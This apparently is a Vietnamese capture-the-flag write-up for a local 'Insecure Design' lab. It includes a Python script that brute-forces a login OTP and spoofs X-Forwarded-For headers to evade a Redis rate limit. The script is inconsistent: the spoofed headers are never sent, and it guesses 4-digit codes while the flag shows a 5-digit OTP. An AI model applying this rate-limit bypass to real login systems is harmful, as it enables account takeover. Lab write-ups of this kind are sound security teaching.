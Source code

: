 
# 🧱 Insecure Design

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:4004/
```

---

## Phân tích

- Khi vào link trang web chúng ta sẽ có môt giao diện login forms gồm 
![ISD](images/Picture14.png)

- Truy cập: `http://127.0.0.1:4004/generator.php`

![ISD](images/Picture15.png)
- Tiếp theo, ta sẽ nghiên cứu resource của bài này. Bài này sẽ gồm có các file chính sau: `index.php`, `generator.php`, `0f1dc3a4a495befc4fd568aa151b6c8b.db`
![ISD](images/Picture16.png)

- Sau khi nghiên cứu luồng hoạt động. Đại khái sẽ là: index sẽ kết nối với Redis server, dữ liệu đăng nhập sẽ được truy suất trong cái file .db dài dài trên kia và điều kiện để có được flag là ta sẽ phải đăng nhập bằng ID: CVE-170144 và mã OTP của nó

==>	Vậy điều kiện để lấy được flag sẽ là đăng nhập bằng ID kể trên

- Vào file 0f1dc3a4a495befc4fd568aa151b6c8b.db rồi dùng ID và mã OTP có ở trong đó đăng nhập thử
![ISD](images/Picture17.png)

- ==>	Kết quả trả về sẽ là: OTP is not expired
- Vậy thử tạo mã Otp mới 
---

## Vấn đề

- ![ISD](images/Chicken-thinking.png) Lỗi "attempt to write a readonly database" cho thấy rằng cơ sở dữ liệu SQLite hiện đang chỉ đọc và không cho phép ghi vào`
- Redis giới hạn số lần thử tạo OTP
- Cần sử dụng bypass bằng thay đổi IP giả (spoofed IP)

---

## Python Bypass Code

- OK! ![ISD](images/Chicken-D0ne.png) Vậy sẽ phải dùng đến redis bypass và thay đổi địa chỉ IP để tránh được giới hạn số lần gọi và thử tạo OTP liên tục

```python
# Code bypass Redis và tạo OTP liên tục (xem nội dung đầy đủ trong writeup gốc)
...
import requests
import random
import string
from redis import Redis
# Thiết lập kết nối Redis
redis_client = Redis(host='localhost', port=6379, db=0, password='hungthinhtran_bountyboys', decode_responses=True)

# Địa chỉ URL cho form đăng nhập và tạo OTP
login_url = "http://localhost:4004/"
generator_url = "http://127.0.0.1:4004/generator.php"
# Hàm tạo OTP ngẫu nhiên
def generate_otp(digits=4):
    return ''.join(random.choices(string.digits, k=digits))
# Hàm gửi yêu cầu POST đến generator.php để tạo OTP
def create_otp(device_id):
    payload = {'id': device_id}
    response = requests.post(generator_url, data=payload)
    if "WE SENT OTP TO YOUR DEVICE" in response.text:
        print(f"OTP created successfully for device ID: {device_id}")
        return True
    else:
        print(f"Failed to create OTP for device ID: {device_id}")
        return False
# Hàm đăng nhập với OTP
def login_with_otp(device_id, otp):
    payload = {'id': device_id, 'otp': otp}
    response = requests.post(login_url, data=payload)
    
    if "Bounty_Boys{Captured_The_Flag}" in response.text:
        print("Login successful! Flag: Bounty_Boys{Captured_The_Flag}")
        return True
    elif "Wrong OTP or device ID not exist" in response.text:
        print("Wrong OTP or Device ID")
        return False
    elif "OTP is expired" in response.text:
        print("OTP expired")
        return False
    else:
        print("Unexpected response:", response.text)
        return False

# Bypass Redis giới hạn số lần yêu cầu bằng cách spoof IP
def spoof_ip():
    # Thay đổi địa chỉ IP giả
    new_ip = f"192.168.{random.randint(1, 255)}.{random.randint(1, 255)}"
    headers = {'X-Forwarded-For': new_ip}
    print(f"Using spoofed IP: {new_ip}")
    return headers

# Vòng lặp thử tạo OTP và đăng nhập
def bypass_ctf(device_id):
    headers = spoof_ip()  # Đổi địa chỉ IP để tránh bị giới hạn Redis

    if create_otp(device_id):
        otp = generate_otp()  # Tạo OTP ngẫu nhiên
        if login_with_otp(device_id, otp):
            print("Successfully bypassed and got the flag!")
            return
        else:
            print("Login failed with OTP.")
    else:
        print("Unable to create OTP.")

# Thử nghiệm với một device_id cụ thể
device_id = "CVE-170144"
bypass_ctf(device_id)
```
![ISD](images/Picture19.png)
- Vào 0f1dc3a4a495befc4fd568aa151b6c8b.db để refresh data

![ISD](images/Picture20.png)


---

## Flag

![ISD](images/Picture21.png)
```
Device ID: CVE-170144
OTP: 01234
```
